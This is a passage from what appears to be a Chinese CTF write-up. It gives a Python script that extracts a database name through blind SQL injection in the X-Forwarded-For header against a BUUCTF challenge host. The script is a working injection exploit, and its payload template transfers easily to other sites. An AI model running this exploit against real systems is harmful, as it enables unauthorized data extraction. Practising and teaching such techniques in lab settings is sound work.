 
基于这个思路编写爆破脚本，exp如下：

```python
import requests

flag=""

url = "http://node3.buuoj.cn:28083/"
for space in range(1,100):
    for i in range(48,123):
        s = requests.session()
        payload = "1' and ascii(substr(database(),%d,1))=%d and '1' = '1"%(space,i)
        print(payload)
        headers1 = {"X-Forwarded-For":payload}
        r1 = s.get(url,headers = headers1)
        headers2 = {"X-Forwarded-For":"1' and '1' = '2"}
        r2 = s.get(url,headers = headers2)
        r2=  s.get(url,headers = headers2) 
        if "Last Ip: 1" in r2.text:
            flag = flag+chr(i)
            print("flag is [ "+flag+" ]")
            break
```

